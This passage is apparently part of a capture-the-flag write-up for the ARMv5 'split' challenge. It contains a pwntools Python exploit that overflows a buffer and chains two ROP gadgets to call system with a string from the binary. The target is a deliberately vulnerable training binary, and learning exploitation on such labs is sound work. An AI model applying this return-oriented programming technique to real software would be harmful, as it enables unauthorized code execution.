 
## Exploitation

### Script python

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('split_armv5')

gs='''
b *pwnme+64
c
'''

# 0x000103a4 : pop {r3, pc}
g_popr3 = 0x000103a4
# 0x00010558 : mov r0, r3 ; pop {fp, pc}
g_movr0r3 = 0x00010558


if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

usefulString = elf.symbols["usefulString"]
usefulFunction = elf.symbols["usefulFunction"]
system = usefulFunction+12

log.info(f"{usefulString=:x}")
log.info(f"{system=:x}")
log.info(f"{g_popr3=:x}")

PL=0x20*b"A"
PL+=p32(0)              # Pour fp
PL+=p32(g_popr3 )
PL+=p32(usefulString)
PL+=p32(g_movr0r3 )
PL+=p32(0)              # Pour fp
PL+=p32(system)
io.sendline(PL)
io.interactive()


```
### Execution
